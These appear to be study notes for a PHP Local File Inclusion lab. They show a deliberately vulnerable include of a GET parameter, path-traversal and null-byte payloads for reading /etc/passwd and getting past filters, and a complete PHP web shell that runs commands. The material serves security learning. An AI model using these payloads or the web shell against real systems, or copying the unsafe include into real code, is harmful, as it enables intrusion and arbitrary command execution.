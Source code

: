 example:
```php
/**
* Get the filename from a GET input and
* Unsafely include the file
*/
$file = $_GET[‘file’];
include(‘directory/’ . $file);
```
Above the attacker’s intent is to trick the application into executing a PHP script, such as a web shell.

With PHP, using functions such as `include`, `require`, `include_once`, and `require_once` often contribute to vulnerable web applications. LFI vulnerabilities also occur when using other languages such as **ASP**, **JSP**, or even in **Node.js** apps. LFI exploits follow the same concepts as Path Traversal.

If the file traversal is blocked by devloper using directory filtering, you could try either
- Append NULL BYTE (`%00`) to the end of path or
- Add `/.` to the path, for example `../../../etc/passwd/.`, as `/.` refers current directory

If the **dot-dot-slash attck** is getting prevented by the server by replacing `../` by empty string, we could try changing the payload, ie. `....//....//....//etc/passwd` as only center part get replaced  `..`../`/` -> `../`

- You use `&ext` on PHP wrappers when you pass encoded text so on the fly the `ext` will read it normally.

### NULL BYTE
Null bytes is an injection technique where URL-encoded representation such as `%00` or `0x00` in hex with user-supplied data to terminate strings. You could think of it as trying to trick the web app into disregarding whatever comes after the Null Byte.

NOTE: the `%00` trick is fixed and not working with `PHP 5.3.4` and above.

example:
Note that we used 4 `../` because we know the path has four levels `/var/www/html/THM-4`. But we still receive the following error:
```
Warning: include(languages/../../../../../etc/passwd.php): failed to open stream: No such file or directory in /var/www/html/THM-4/index.php on line 12
```
It seems we could move out of the PHP directory but still, the include function reads the input with .php at the end! This tells us that the developer specifies the file type to pass to the include function. To bypass this scenario, we can use the NULL BYTE, which is %00.

A PHP Web shell:
```php
<html>
  <body>
    <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
      <input type="text" name="command" autofocus id="command" size="50" />
      <input type="submit" value="Execute" />
    </form>
    <pre>
        <?php
            if(isset($_GET['command'])) 
            {
                system($_GET['command'] . ' 2>&1'); 
            }
        ?>
    </pre>
  </body>
</html>
```
